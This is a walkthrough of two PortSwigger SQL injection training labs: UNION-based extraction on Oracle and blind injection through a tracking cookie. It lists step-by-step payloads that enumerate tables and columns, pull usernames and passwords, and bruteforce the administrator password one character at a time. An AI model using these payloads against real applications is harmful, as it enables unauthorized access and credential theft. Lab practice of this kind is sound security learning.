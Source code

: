 # SQL Injection Part 3: Portswigger Labs
### [Lab10: SQL injection attack, listing the database contents on Oracle](https://0a4000fb036fe53ec00903d500a80086.web-security-academy.net/filter?category=Lifestyle)
**To solve: Login as the administrator**

**STEP 1:**
Find number of columns 
```html
' UNION SELECT null,null FROM DUAL--
```

**STEP 2:**
Find columns that contains text
```html
' UNION SELECT 'a', 'a' from DUAL--
```

**STEP 3:**
Output the list of tables in the database 
```html
' UNION SELECT table_name,null FROM all_tables--
```

**STEP 4:**
Output the column names of the users table
```html
' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'USERS_RANDOM'--
```

**STEP 5:**
Use the USERNAME_RANDOM and PASSWORD_RANDOM column and USERS_RANDOM table to get credentials
```html
' UNION SELECT USERNAME_RANDOM,PASSWORD_RANDOM FROM USERS_RANDOM--
```

**STEP 6:**
Login

### [Lab 11: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

**To solve: Login as administrator**

**STEP 1**
Finding vulnerable parameter which here is tracking cookie
```html
trackingId = "xxxxxxxxxxxxx' and 1=0--
```

> If this tracking id exists -> query returns value -> Welcome back message

> If the tracking id doesn't exist -> query returns nothing > no welcome back message

**STEP 2:**
Confirm users table exist
```html
trackingId = xxxxxxxxxxxxx' and (select 'x' from users LIMIT 1) = 'x'--
```

**STEP 3:**
Confirm that username administrator exists in users table
```html
trackingId = 'xxxxxxxxxxxxx' and (select username from users where username='administrator') = 'administrator'--
```

**STEP 4:**
Enumerate the password length
```html
trackingId = 'RVLfBu6s9EZRUVYN' and (select username from users where username = 'administrator' and LENGTH(password) > 1 ) = 'administrator'--
```

> we graually increase the length of password till we don't get welcome back message

> Till 19 character we get welcome back message -> password is exactly 20 character

**STEP 5:**
Enumerate the password
```html
trackingId = 'RvLfBu6s9EZRLVYN' and (select substring(password,1,1) from users where username='administrator')='a'--
```

> substring divides the password -> This give us oppurunity to bruteforce each character at a time

**STEP 6:**
Login

